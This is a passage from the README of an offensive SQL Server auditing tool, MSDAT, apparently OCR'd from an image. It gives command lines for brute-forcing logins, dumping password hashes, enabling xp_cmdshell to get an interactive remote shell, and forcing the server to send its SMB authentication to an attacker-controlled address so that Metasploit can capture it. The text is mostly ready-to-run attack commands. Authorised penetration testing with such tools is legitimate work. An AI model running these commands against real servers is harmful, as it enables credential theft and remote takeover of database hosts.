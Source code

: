 *--force-retry* option allows to test multiple passwords for each user without ask you

You can specify your own account file with the *--accounts-file* option:
```bash
./msdat.py passwordguesser -s $SERVER -p $PORT --search --accounts-file accounts.txt --force-retry
```

*passwordstealer* module
---

To dump hashed passwords :
```bash
./msdat.py passwordstealer -s $SERVER -p $PORT -U $USER -P $PASSWORD -d $DATABASE --dump --save-to-file test.txt
```

This modules has been tested on SQL Server 2000, 2005, 2008 and 2014.

*xpcmdshell* module
---

To execute system commands thanks to *xp_cmdshell* ([https://msdn.microsoft.com/en-us/library/ms190693.aspx](https://msdn.microsoft.com/en-us/library/ms190693.aspx)):
```bash
./msdat.py xpcmdshell -s $SERVER -p $PORT -U $USER -P $PASSWORD --shell
```

This previous command give you an interactive shell on the remote database server.

If *xp_cmdshell* is not enabled, the *--enable-xpcmdshell* can be used in this module to activate it:
```bash
./msdat.py xpcmdshell -s $SERVER -p $PORT -U $USER -P $PASSWORD --enable-xpcmdshell --disable-xpcmdshell --disable-xpcmdshell --shell
```

The *--enable-xpcmdshell* option enables *xp_cmdshell* if it is not enabled (not enabled by default).

The *--disable-xpcmdshell* option disables *xp_cmdshell* if this one is enabled.

*smbauthcapture* module
---

Thanks to this module, you can capture a SMB authentication:
```bash
./msdat.py smbauthcapture -s $SERVER -p $PORT -U $USER -P $PASSWORD -d $DATABASE --capture $MY_IP_ADDRESS --share-name SHARE
```

To capture the SMB authentication, the *auxiliary/server/capture/smb* ([http://www.rapid7.com/db/modules/auxiliary/server/capture/smb](http://www.rapid7.com/db/modules/auxiliary/server/capture/smb)) module of metasploit could be used:
```bash
msf > use auxiliary/server/capture/smb
msf auxiliary(smb) > exploit
```

The *__capture__* command of this module tries to capture a SMB authentication thanks to *xp_dirtree*, *xp_fileexist* or *xp-getfiledetails* procedure.
